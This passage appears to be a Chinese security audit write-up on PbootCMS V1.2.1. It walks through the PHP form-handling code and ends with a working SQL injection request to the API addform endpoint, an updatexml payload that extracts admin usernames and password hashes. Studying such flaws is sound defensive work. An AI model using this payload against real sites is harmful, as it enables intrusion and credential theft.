 ```
            }

            // 写入数据
            if ($this->model->addMessage($value->table_name, $data)) {
                $this->log('API 提交表单数据成功！');
                if ($this->config('message_send_mail') && $this->config('message_send_to')) {
                    $mail_subject = "【PbootCMS】您有新的表单数据，请注意查收！";
                    $mail_body .= '<br>来自网站' . get_http_url() . '（' . date('Y-m-d H:i:s') . '）';
                    sendmail($this->config(), $this->config('message_send_to'), $mail_subject, $mail_body);
                }
                json(1, '表单提交成功！');
            } else {
                $this->log('API 提交表单数据失败！');
                json(0, '表单提交失败！');
            }
        } else {
            json(0, '表单提交失败，请使用 POST 方式提交！');
        }
    } 
```

可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部 POST 内容，只匹配数据库的字段，相同才会拼接到 $_data 数组

```
然后就会带入 $this->model->addMessage(data) 执行语句 
```

文件：PbootCMS-V1.2.1\apps\api\model\CmsModel.php 函数：addMessage(

```
// 新增留言
    public function addMessage($table, $data)
    {
        return parent::table('ay_message')->autoTime()->insert($data);
    } 
```

根据 6.0 可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制 key 带入数据库查询引发注入

## 0x10.3 接口注入三

### 0x10.3.1 漏洞利用

```
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addform?fcode=1
post:
    contacts[content`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
    mobile = 111
    content = 123 
```

